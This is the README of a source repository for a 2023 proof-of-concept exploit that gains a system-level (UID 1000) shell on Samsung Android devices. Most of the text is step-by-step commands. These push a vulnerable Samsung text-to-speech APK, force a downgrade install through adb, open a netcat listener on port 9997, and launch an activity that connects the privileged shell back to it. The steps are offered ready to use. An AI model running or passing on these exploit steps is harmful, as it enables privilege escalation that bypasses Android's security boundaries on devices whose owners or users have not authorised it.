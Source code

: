 # K0mraid3s_System_Shell-Source
 Source code for K0mraid3s 2023 System Shell PoC
As seen on XDA https://forum.xda-developers.com/t/system-shell-exploit-all-samsung-mobile-devices-no-bl-unlock-required.4543071/

If you just need this prebuilt, see this repo https://github.com/k0mraid3/K0mraid3s-System-Shell

This PoC Should point at localhost port 9997, so nc -lp 9997 into it once built. 

Step 1 - Install the included "komraids_POC_V1.6.apk" to the device, then push the included "samsungTTSVULN2.apk" to /data/local/tmp (adb push samsungTTSVULN2.apk /data/local/tmp) -> Chmod 777 /data/local/tmp/samsungTTSVULN2.apk >>> I advice disabling all battery optimizations for Samsung TTS and Shell, otherwise, it cuts off the shell from time to time.

Step 2 - Make sure ADB is on, Connected and authorized and all power saving is off (as mentioned above) Reboot device.

Step 4 - When device reboots, run this command from ADB. adb shell pm install -r -d -f -g --full --install-reason 3 --enable-rollback /data/local/tmp/samsungTTSVULN2.apk ---> it will return "Success" when done.

Step 5 - Now, open two shells, in the first, do nc -lp 9997 & in the second, do am start -n com.samsung.SMT/.gui.DownloadList -> Look back at the first shell., it should have opened into a new system (UID 1000) shell.
